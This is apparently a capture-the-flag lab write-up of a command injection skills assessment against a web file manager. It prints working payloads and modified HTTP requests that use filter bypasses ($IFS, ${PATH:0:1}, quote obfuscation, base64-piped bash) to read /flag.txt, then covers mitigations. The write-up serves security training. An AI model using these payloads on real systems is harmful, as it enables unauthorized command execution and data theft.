

# Skills Assessment - Command Injection

> **🎯 Final Assessment:** Comprehensive practical scenario integrating all command injection techniques

## Overview

This Skills Assessment represents a **real-world penetration testing scenario** that requires students to apply all the techniques learned throughout the Command Injection module. The challenge involves a web-based file manager application with command injection vulnerabilities that must be identified and exploited using advanced bypass techniques.

**Skills Tested:**
- Web application reconnaissance
- Command injection detection
- GET parameter manipulation
- Filter identification and bypass
- Multiple payload construction methods
- Tool integration (Burp Suite)

---

## Challenge Description

### Target Application: Web File Manager

**Question:** What is the content of '/flag.txt'?

**Initial Access:**
- **URL:** Target machine web interface
- **Credentials:** `guest:guest`
- **Application Type:** Web-based file management system

---

## Step-by-Step Walkthrough

### Phase 1: Initial Access and Reconnaissance

**Step 1: Login to Application**

After spawning the target machine, navigate to the website's root webpage and login with the provided credentials:

```
Username: guest
Password: guest
```

**Step 2: Application Analysis**

Once signed in to the web-based file manager, observe the available functionality:
- **File listing** - Multiple files and folders visible
- **File operations** - Four clickable buttons per file:
  - Preview
  - Copy to...
  - Direct link
  - Download

**Step 3: Identify Attack Vector**

The **"Copy to..."** button appears most promising for command injection because:
- Backend likely uses system commands (`mv`, `move`, `cp`)
- File operations typically involve OS-level commands
- Parameters are likely passed to shell commands

### Phase 2: Vulnerability Discovery

**Step 4: Test Copy Functionality**

Clicking "Copy to..." redirects to a new page with:
- **Two main options:** Copy and Move
- **Destination selection:** Folder chooser
- **URL parameters:** Visible in address bar

**Step 5: Initial Injection Testing**

Testing the **Copy** function with character injection in URL shows no command execution indicators.

**Step 6: Focus on Move Functionality**

Testing the **Move** function without selecting destination folder produces error:

**Error Message Example:**
```
mv: cannot move 'source_file' to 'destination': No such file or directory
```

**Key Insight:** This error reveals:
- Backend uses `mv` command
- Error messages are displayed to user
- We can capture command output through error messages

### Phase 3: Injection Vector Identification

**Step 7: Analyze Request Parameters**

Using Burp Suite to intercept the Move request reveals two GET parameters:
- `to` - Destination path
- `from` - Source file

**Example Request:**
```http
GET /index.php?to=tmp&from=51459716.txt&finish=1&move=1 HTTP/1.1
```

**Step 8: Test Injection Operators**

Testing various injection operators in both parameters:

| Operator | Result |
|----------|--------|
| `;` | "Malicious request denied!" |
| `\|` | "Malicious request denied!" |
| `&&` | "Malicious request denied!" |
| `&` | ✅ **Request passes** |

**Key Discovery:** The `&` operator is **whitelisted** because developers assumed it's required for URL structure.

### Phase 4: Exploitation Development

**Step 9: Parameter Selection**

Both `to` and `from` parameters can be used for injection since they both constitute the command being executed by the backend.

**Step 10: Payload Construction Requirements**

To successfully read `/flag.txt`, we need to bypass:
- **Space filter** - Use `$IFS` or `%09`
- **Slash filter** - Use `${PATH:0:1}`
- **Command detection** - Use quote obfuscation

**Step 11: Payload Development**

**Method 1: Direct Command with Obfuscation**
```bash
# Target command: cat /flag.txt
# Obfuscated: c"a"t /flag.txt
# With bypasses: c"a"t${IFS}${PATH:0:1}flag.txt
# With injection: ${IFS}&c"a"t${IFS}${PATH:0:1}flag.txt
# URL encoded: $IFS%26c"a"t$IFS${PATH:0:1}flag.txt
```

**Method 2: Base64 Encoded Command**
```bash
# Encode command
echo -n 'cat /flag.txt' | base64
# Result: Y2F0IC9mbGFnLnR4dA==

# Create payload
bash<<<$(base64 -d<<<Y2F0IC9mbGFnLnR4dA==)
# With obfuscation: b"a"sh<<<$(base64%09-d<<<Y2F0IC9mbGFnLnR4dA==)
# With injection: ${IFS}&b"a"sh<<<$(base64%09-d<<<Y2F0IC9mbGFnLnR4dA==)
# URL encoded: $IFS%26b"a"sh<<<$(base64%09-d<<<Y2F0IC9mbGFnLnR4dA==)
```

### Phase 5: Exploitation Execution

**Step 12: Burp Suite Setup**

1. **Configure Proxy:** Set FoxyProxy to "BURP" profile
2. **Intercept Request:** Click Move with no destination folder
3. **Send to Repeater:** Use Ctrl+R to send intercepted request

**Step 13: Execute Method 1 (Direct Command)**

**Modified Request:**
```http
GET /index.php?to=tmp$IFS%26c"a"t$IFS${PATH:0:1}flag.txt&from=51459716.txt&finish=1&move=1 HTTP/1.1
```

**Step 14: Execute Method 2 (Base64 Encoded)**

**Modified Request:**
```http
GET /index.php?to=tmp$IFS%26b"a"sh<<<$(base64%09-d<<<Y2F0IC9mbGFnLnR4dA==)&from=51459716.txt&finish=1&move=1 HTTP/1.1
```

### Phase 6: Flag Extraction

**Step 15: Analyze Response**

Both payloads will return the flag in the error message section of the HTTP response.

**Expected Flag:**
```
HTB{...}
```

---

## Technical Analysis

### Vulnerability Details

**Injection Point:** GET parameters in web file manager
```php
// Vulnerable backend code (conceptual)
$to = $_GET['to'];
$from = $_GET['from'];
exec("mv $from $to", $output, $return_code);
```

**Root Cause:**
- Insufficient input validation
- Direct parameter interpolation into system commands
- Error message disclosure

### Filter Analysis

**Implemented Filters:**
- ✅ Semicolon (`;`) blocked
- ✅ Pipe (`|`) blocked  
- ✅ AND (`&&`) blocked
- ❌ Ampersand (`&`) **whitelisted**

**Filter Bypass Strategy:**
- **Space bypass:** `$IFS` environment variable
- **Slash bypass:** `${PATH:0:1}` character extraction
- **Command obfuscation:** Quote injection (`c"a"t`)
- **Encoding:** Base64 for complex commands

---

## Alternative Exploitation Methods

### Method 3: Environment Variable Techniques

**Using Multiple Environment Variables:**
```bash
# Alternative character sources
${HOME:0:1}    # Extract '/' from HOME path
${PWD:0:1}     # Extract first character of current directory
${USER:0:1}    # Extract first character of username
```

**Payload Example:**
```http
to=tmp$IFS%26c"a"t$IFS${HOME:0:1}flag.txt
```

### Method 4: Advanced Obfuscation Combinations

**Multi-layer Obfuscation:**
```bash
# Combine multiple techniques
${IFS}&$(tr$IFS"[A-Z]"$IFS"[a-z]"<<<"C"A"T")$IFS${PATH:0:1}flag.txt
```

### Method 5: Windows Alternative (If Applicable)

**Windows Environment Variables:**
```cmd
# If target were Windows
%TEMP:~-3,-2%    # Character extraction from TEMP
%HOMEPATH:~0,1%  # Extract backslash
```

---

## Defense Analysis

### Identified Security Weaknesses

1. **Input Validation Failure**
   - No sanitization of user input
   - Direct parameter interpolation

2. **Filter Implementation Flaws**
   - Incomplete blacklist approach
   - URL context assumptions (& whitelisting)

3. **Error Information Disclosure**
   - System error messages exposed
   - Command output visible to users

4. **Command Execution Design**
   - Direct shell command execution
   - No command isolation

### Recommended Mitigations

**1. Input Validation**
```php
// Whitelist validation
function validateFilename($filename) {
    if (!preg_match('/^[a-zA-Z0-9._-]+$/', $filename)) {
        throw new InvalidArgumentException('Invalid filename');
    }
    return $filename;
}
```

**2. Parameterized Operations**
```php
// Use file system functions instead of shell commands
function moveFile($source, $destination) {
    if (!rename($source, $destination)) {
        throw new RuntimeException('Move operation failed');
    }
}
```

**3. Error Handling**
```php
// Generic error messages
function handleError($error) {
    error_log($error); // Log for admin
    return "Operation failed. Please try again."; // User message
}
```

---

## Learning Outcomes

### Skills Demonstrated

**✅ Technical Skills:**
- Web application analysis
- HTTP parameter manipulation
- Command injection exploitation
- Filter identification and bypass
- Multiple payload construction
- Tool integration (Burp Suite)

**✅ Methodology:**
- Systematic vulnerability assessment
- Incremental exploitation development
- Alternative approach consideration
- Defense-aware testing

**✅ Real-world Application:**
- Professional penetration testing workflow
- Documentation and reporting
- Risk assessment and mitigation

### Attack Chain Summary



---

## Key Takeaways

### **Critical Success Factors**
1. **Systematic Approach** - Methodical testing of all functions
2. **Filter Analysis** - Understanding what's blocked vs. allowed
3. **Multiple Techniques** - Having backup exploitation methods
4. **Tool Proficiency** - Effective use of Burp Suite
5. **Bypass Creativity** - Combining multiple evasion techniques

### **Professional Applications**
- **Web Application Security Testing**
- **File Manager Vulnerability Assessment**
- **GET Parameter Security Analysis**
- **Error-based Information Disclosure Testing**

This comprehensive Skills Assessment demonstrates mastery of command injection techniques in a realistic web application environment, preparing students for professional penetration testing scenarios. 